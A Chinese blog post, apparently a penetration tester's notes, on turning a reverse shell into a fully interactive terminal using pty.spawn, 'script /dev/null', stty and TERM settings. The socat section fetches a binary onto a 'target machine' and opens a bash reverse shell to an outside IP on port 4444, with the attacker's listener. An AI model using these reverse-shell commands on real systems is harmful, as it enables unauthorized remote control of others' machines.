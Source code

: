 ```yaml
---
title:      "「BASH」:谈谈如何获取完全交互式终端"
author:     "Bin4xin"
catalog: true
article_header:
  type: cover

tags:
    - 笔记
    - BASH

---
```



写在前面，本方法适用于在反弹shell后把shell提升为完全交互式shell，也是自己实战了一段时间后摸索出来的，记一下笔记；
# 完美的交互式shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
stty raw -echo
fg
reset
export SHELL=bash
//$ export TERM=xterm-256color
```

同样的，我在网上也找到另外一种方式：`script /dev/null/`这样：同理，也可以通过同样的方式获取到交互式shell：
```bash
script /dev/null
Ctrl-Z
stty raw -echo
fg
reset
```
这样我们在终端某个命令时，输入`ctrl+c`或者`ctrl+z`就不会直接中断shell。
这里转载搜到信息来进行展示，供大家参考：
```bash
stty -echo	#禁止回显，当在键盘上输入时，并不出现在屏幕上
stty echo 	#打开回显
stty raw 	#设置原始输入
stty -raw	#关闭原始输入
bg			#将一个在后台暂停的命令，变成继续执行
fg			#将后台中的命令调至前台继续运行
jobs		#查看当前有多少在后台运行的命令
ctrl+z 		#可以将一个正在前台执行的命令放到后台，并且暂停
clear  		#这个命令将会刷新屏幕，本质上只是让终端显示页向后翻了一页，如果向上滚动屏幕还可以看到之前的操作信息。
reset 		#这个命令将完全刷新终端屏幕，之前的终端输入操作信息将都会被清空
```
来源：<a href="https://saucer-man.com/information_security/233.html#cl-3">实现交互式shell的几种方式</a>

# socat

目标机

把socat上传到目标机器上或者直接下载
```bash
$ wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat

vuln_ip:
chmod +x /tmp/socat
./tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:47.52.233.92:4444
--
attack machine
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

# stty行列数:)
有的时候终端写入的命令太长，而终端行列不够长来显示所以会导致命令重叠、错杂，我们可以用下面的方法来让我们用这个shell用的更舒服点；

先看看自己机器上的stty配置信息:
```bash
root@ubuntu20-free:~# stty -a
speed 9600 baud; rows 35; columns 148; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R;
werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc -ixany -imaxbel -iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
```
`speed 9600 baud; rows 35; columns 148; line = 0;`这一段是我们所需要的信息；
```bash
rows 35; columns 148
配置我们的shell如下：
$ stty rows 35 cols 148
```

# 其他痛点
有的时候感觉terminal上太多命令了，用着用着会习惯性输入命令`clear`，然后你们就会看到如下现象：
```bash
# clear

TERM environment variable not set.

# set |grep TERM

TERM=dumb
```
如上，看term的配置信息，最后解决办法如下，设置term为`xterm`就可以了。
```bash
# export TERM=xterm

# set |grep TERM
TERM=xterm
_=TERM
```
之后就可以随意的clear清除命令辣！